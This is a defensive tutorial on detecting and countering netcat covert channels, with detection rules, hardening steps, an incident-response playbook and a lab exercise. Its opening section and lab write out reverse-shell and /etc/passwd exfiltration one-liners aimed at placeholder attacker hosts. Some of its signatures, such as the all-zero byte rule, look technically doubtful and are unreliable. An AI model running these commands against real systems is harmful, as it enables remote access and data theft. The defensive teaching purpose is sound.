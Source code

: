 # Detecting and defending against covert communications

### **1. Understanding Netcat’s Covert Use Cases**  
Netcat (`nc`) is a versatile networking tool often abused by adversaries for:  
- **Reverse shells**: `nc -e /bin/sh <attacker_IP> <port>`  
- **File exfiltration**: `nc -w 3 <attacker_IP> <port> < /etc/passwd`  
- **Port scanning**: `nc -zv <target_IP> 1-1000`  
- **C2 Relays**: Chaining netcat instances to pivot through networks.  

---

### **2. Detection Strategies**  
#### **A. Network-Based Detection**  
##### **a. Unusual Port Activity**  
- Netcat often uses uncommon ports (e.g., 4444, 31337) or masquerades as HTTP/HTTPS (ports 80/443) with non-standard protocols.  
- **Example**: Use `tshark` (Wireshark CLI) to flag traffic on suspicious ports:  
  ```bash
  tshark -r traffic.pcap -Y "tcp.port == 4444 && !(http || tls)"  
  ```  

##### **b. Payload Analysis**  
- Netcat traffic lacks typical protocol headers (e.g., HTTP/SMTP). Use **Bro/Zeek** to detect raw TCP/UDP sessions:  
  ```bro
  event connection_state_remove(c: connection) {
    if (c$id$resp_p == 4444 && c$history == "SrA") {  # SrA = SYN, SYN-ACK, ACK
      NOTICE([$note=Covert_Channel,
              $msg=fmt("Suspicious raw TCP session to %s", c$id$resp_h)]);
    }
  }
  ```  

##### **c. Suricata/Snort Signatures**  
Create custom rules to detect netcat patterns:  
```suricata  
alert tcp any any -> any any (msg:"Netcat Reverse Shell Detected"; content:"|00 00 00 00 00 00 00 00|"; depth:8; sid:1000001;)  
```  
*(Note: The byte sequence `00 00 00 00 00 00 00 00` is common in netcat raw TCP sessions.)*  

---

#### **B. Host-Based Detection**  
##### **a. Process Monitoring**  
- Netcat processes (`nc`, `ncat`, `netcat`) are short-lived. Use **Sysmon** (Windows) or **auditd** (Linux) to log process creation:  
  **Sysmon Configuration (Windows)**:  
  ```xml  
  <RuleGroup name="Netcat Detection">  
    <ProcessCreate onmatch="include">  
      <CommandLine condition="contains">nc</CommandLine>  
      <CommandLine condition="contains">ncat</CommandLine>  
    </ProcessCreate>  
  </RuleGroup>  
  ```  

  **Linux Auditd Rule**:  
  ```bash  
  auditctl -a always,exit -F arch=b64 -S execve -F exe=/usr/bin/nc -k netcat_usage  
  ```  

##### **b. Open Network Connections**  
- Use `netstat`/`lsof` to identify unexpected connections:  
  ```bash  
  # Linux:  
  lsof -i -P -n | grep 'nc\|netcat'  

  # Windows:  
  netstat -ano | findstr /i "ESTABLISHED" | findstr ":4444"  
  ```  

##### **c. Persistence Mechanisms**  
Check for netcat in startup scripts or cron jobs:  
```bash  
# Linux:  
grep -r "nc" /etc/cron* /var/spool/cron  

# Windows:  
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /s | findstr /i "nc"  
```  

---

#### **C. Behavioral Indicators**  
- **Unusual Outbound Connections**: A non-browser process (e.g., `svchost.exe`) connecting to external IPs on high ports.  
- **Data Exfiltration Patterns**: Large volumes of data sent via raw TCP/UDP (e.g., 100MB from a user’s workstation).  
- **EDR Alerts**: Tools like CrowdStrike or Carbon Black flagging `cmd.exe` spawning `nc.exe`.  

---

### **3. Defensive Countermeasures**  
#### **A. Network Hardening**  
- **Egress Filtering**: Block outbound traffic on non-essential ports (e.g., only allow 80/443/53).  
- **Proxy All Traffic**: Force HTTP/S through a proxy (e.g., Squid) to inspect raw TCP/UDP.  
- **Network Segmentation**: Isolate critical systems to limit lateral movement.  

#### **B. Host Hardening**  
- **Application Whitelisting**: Block `nc`, `ncat`, and `netcat` via AppLocker (Windows) or `rpm -e netcat` (Linux).  
- **Least Privilege**: Ensure users can’t execute arbitrary binaries (e.g., `nc` in `/tmp`).  

#### **C. Deception**  
- **Honeypots**: Deploy fake servers on common netcat ports (e.g., 4444) to trigger alerts.  
  ```bash  
  # Honeypot listener:  
  nc -lvp 4444  
  ```  

---

### **4. Incident Response Playbook**  
**Scenario**: Netcat reverse shell detected on a workstation.  
1. **Contain**:  
   - Isolate the host from the network (disable NIC via `netsh interface set interface "Ethernet" disable`).  
2. **Investigate**:  
   - Capture process memory with `dumpmem` or `Volatility`:  
     ```bash  
     volatility -f memory.dump --profile=Win10x64 netscan  
     ```  
   - Check for `nc` in `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.  
3. **Eradicate**:  
   - Terminate the netcat process: `taskkill /IM nc.exe /F`.  
   - Remove persistence entries.  
4. **Hunt**:  
   - Search SIEM logs for other hosts connecting to the attacker’s IP.  

---

### **5. Advanced Detection: Encrypted Netcat (ncat with SSL)**  
Adversaries often wrap netcat in SSL to evade detection:  
```bash  
ncat --ssl <attacker_IP> 443  
```  
**Detection**:  
- Use JA3/S hashes to fingerprint SSL/TLS clients (ncat uses OpenSSL libraries):
- Suricata rule:  
  ```suricata  
  alert tls any any -> any any (msg:"Suspicious JA3 Hash"; ja3.hash; content:"a0e9f5d64349fb13191bc781f81f42e1"; sid:1000002;)  
  ```  

---

### **6. Lab Exercise**  
1. **Simulate a Netcat Attack**:  
   - On Kali: `nc -lvp 4444`  
   - On Victim: `nc <kali_IP> 4444 -e /bin/bash`  
2. **Detect with Zeek**:  
   - Analyze `conn.log` for raw TCP sessions.  
3. **Write a Custom Suricata Rule**:  
   - Trigger an alert when `nc` connects to port 4444.  

---

### **Key Takeaways**  
- Covert tools like netcat leave traces in **process logs**, **network metadata**, and **behavioral patterns**.  
- Combine **network signatures**, **host-based telemetry**, and **SSL fingerprinting** for robust detection.  
- Use **deception** and **egress filtering** to disrupt adversaries.  

Additional tactics can include: DNS tunneling and ICMP covert channels.
